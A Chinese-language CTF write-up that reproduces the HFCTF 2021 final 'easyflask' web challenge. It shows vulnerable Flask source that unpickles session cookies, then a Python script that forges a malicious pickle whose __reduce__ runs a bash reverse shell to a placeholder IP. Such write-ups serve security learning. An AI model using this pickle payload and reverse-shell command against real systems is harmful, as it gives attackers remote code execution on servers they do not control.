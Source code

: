 ```yaml
---
title: HFCTF 2021 Final
date: 2021-04-29 13:13:23
updated: 2021-04-29 13:13:23
categories: Write up
---
```


虎符2021线下赛web复现<!--more-->

# easyflask

```python
/file?file=/app/source

#!/usr/bin/python3.6
import os
import pickle

from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})


@app.route('/', methods=('GET',))
def index_handler():
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"


@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'

    with open(path, 'r') as fp:
        content = fp.read()
    return content


@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
        u = pickle.loads(u)
    except Exception:
        return 'uhh?'

    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'


if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)

```

1. /file目录对参数做了一些限制

2. /admin目录有一个序列化操作



`app.config["SECRET_KEY"] = "*******"` ,查找到SECRET_KEY 在如下目录

![](http://img.npfs06.top/20210505164127.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

接下去就是session伪造了

```python
import pickle
from base64 import b64encode
import os

User = type('User', (object,), {
    'uname': 'tyskill',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
    '__reduce__': lambda o: (os.system, ("bash -c 'bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/23180 0>&1'",))
})
u = pickle.dumps(User())
print(b64encode(u).decode())
```



![](http://img.npfs06.top/20210505185415.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

将session替换掉

![](http://img.npfs06.top/20210506132202.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)